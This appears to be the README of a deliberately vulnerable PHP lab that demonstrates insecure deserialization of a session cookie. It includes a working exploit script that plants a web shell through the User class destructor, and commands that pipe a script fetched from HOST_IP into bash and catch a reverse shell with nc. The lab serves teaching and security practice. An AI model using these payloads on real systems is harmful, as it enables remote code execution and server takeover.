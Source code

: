 # phpserialization-poc
This is a vulnerable php Application that serialize user class object for session management.

## How work The app
The /notes endpoint is protected and users with author privileges can it to retrieve thier notes. When user login the application
serialize the user class object and send it as cookie to the client (browser) for session management. The user class has a deconstructor
that logs users requests. 

## Run the App
#### Use the image
```sh
docker pull lig10/phpdeserialization-poc:v1.0 
docker run -d -p 3000:80 lig10/phpdeserialization-poc:v1.0
```

#### Build the image
```sh
git clone https://github.com/gil01karougbe/nodeserialize-poc.git
cd phpserialization-poc
docker build -t phpserialization-poc .
docker run -d -p 3000:80 phpserialization-poc
```

## Access the App
![image](https://github.com/user-attachments/assets/f80111ff-9ca6-4eb0-a610-80c9b0e6768f)

Use the Following creds to login:
```sh
admin:admin
user:iloveyou!
john:soccer
```
![image](https://github.com/user-attachments/assets/0c2c4a9a-c534-411a-b0a9-f00b84eb38bd)
![image](https://github.com/user-attachments/assets/c5f6b3ed-af49-4ae2-bbb1-9a23cc9caee5)

## Exploitation
### Code Analysis
```php
<?php
class User{
    public $name = "";
    public $level = "";
    public $filename = "logs.txt";
    public $message = "Request From ";
    
    public function __destruct(){
        $currentDate = date('Y-m-d H:i:s');
        file_put_contents(__DIR__ . "/" . $this->filename, $this->message . $this->name . " " . $currentDate . ".\n", FILE_APPEND);
    }
}
if (isset($_COOKIE['user_token'])) {
    $token = $_COOKIE['user_token'];
    $decoded = base64_decode($token);
    $usr = unserialize($decoded);
    // SOME CODE HERE(use of the user object to search for his notes!!!)
} else {
    echo "Token not found. User not authenticated.";
}

?>
```
### Exploit
```php
<?php
class User{
    public $name = "admin";
    public $level = "";
    public $filename = "shell.php";
    public $message = "<?php system(\$_GET['cmd']); ?>";
}
//admin 
$admin = new User();
echo serialize($admin);
echo "\n";
$Token1 = base64_encode(serialize($admin));
echo $Token1;
?>
```
![image](https://github.com/user-attachments/assets/ec8d7ef2-e56c-4817-96ef-7af04dd796ca)

### RCE
![image](https://github.com/user-attachments/assets/d5f3da57-d7ef-48c9-a400-07569486eca3)
![image](https://github.com/user-attachments/assets/2c1a1832-8114-46f7-86d2-68ac15c34673)

## One Way to get a Reverse Shell
```sh
shell.php?cmd=curl http://HOST_IP/revshell.sh | bash
nc -lvnp 12345
```
![image](https://github.com/user-attachments/assets/c95d8edb-408d-45ff-972a-bf06e840974f)

![image](https://github.com/user-attachments/assets/94a11fb0-86ba-4bbc-8de3-91f8751291b1)






